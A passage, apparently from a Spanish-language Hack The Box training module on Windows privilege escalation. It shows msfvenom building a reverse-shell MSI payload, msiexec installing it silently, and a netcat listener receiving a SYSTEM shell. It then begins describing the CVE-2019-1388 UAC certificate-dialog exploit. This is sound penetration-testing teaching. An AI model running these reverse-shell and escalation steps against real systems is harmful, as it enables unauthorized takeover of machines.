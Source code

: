   Técnicas misceláneas

```shell-session
xnoxos@htb[/htb]$ msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.3 lport=9443 -f msi > aie.msi

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of msi file: 159744 bytes
```

#### Ejecutando el paquete MSI

Podemos cargar este archivo MSI en nuestro objetivo, iniciar un oyente de NetCat y ejecutar el archivo desde la línea de comandos de así decirlo:

  Técnicas misceláneas

```cmd-session
C:\htb> msiexec /i c:\users\htb-student\desktop\aie.msi /quiet /qn /norestart
```

#### Captura concha

Si todo va según lo planeado, recibiremos una conexión como`NT AUTHORITY\SYSTEM`.

  Técnicas misceláneas

```shell-session
xnoxos@htb[/htb]$ nc -lnvp 9443

listening on [any] 9443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.129.43.33] 49720
Microsoft Windows [Version 10.0.18363.592]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami

whoami
nt authority\system
```

Este problema puede mitigarse deshabilitando las dos configuraciones de política de grupo local mencionados anteriormente.

---

## CVE-2019-1388

[CVE-2019-1388](https://nvd.nist.gov/vuln/detail/CVE-2019-1388)fue una vulnerabilidad de escalada de privilegios en el cuadro de diálogo del certificado de Windows, que no hizo cumplir correctamente los privilegios del usuario. El problema estaba en el mecanismo UAC, que presentaba una opción para mostrar información sobre el certificado de un ejecutable, abriendo el cuadro de diálogo del certificado de Windows cuando un usuario hace clic en el enlace. El`Issued By`El campo en la pestaña General se representa como un hipervínculo si el binario está firmado con un certificado que tiene un identificador de objeto (OID)`1.3.6.1.4.1.311.2.1.10`. Este valor de OID se identifica en el[Wintrust.H](https://docs.microsoft.com/en-us/windows/win32/api/wintrust/)encabezado como[Spc_sp_agency_info_objid](https://docs.microsoft.com/en-us/windows/win32/api/wincrypt/nf-wincrypt-cryptformatobject)que es el`SpcSpAgencyInfo`campo en la pestaña Detalles del cuadro de diálogo Certificado. Si está presente, un hipervínculo incluido en el campo se convertirá en la pestaña General. Esta vulnerabilidad se puede explotar fácilmente utilizando un antiguo ejecutable firmado por Microsoft ([hhupd.exe](https://packetstormsecurity.com/files/14437/hhupd.exe.html)) que contiene un certificado con el`SpcSpAgencyInfo`campo poblado con un hipervínculo.

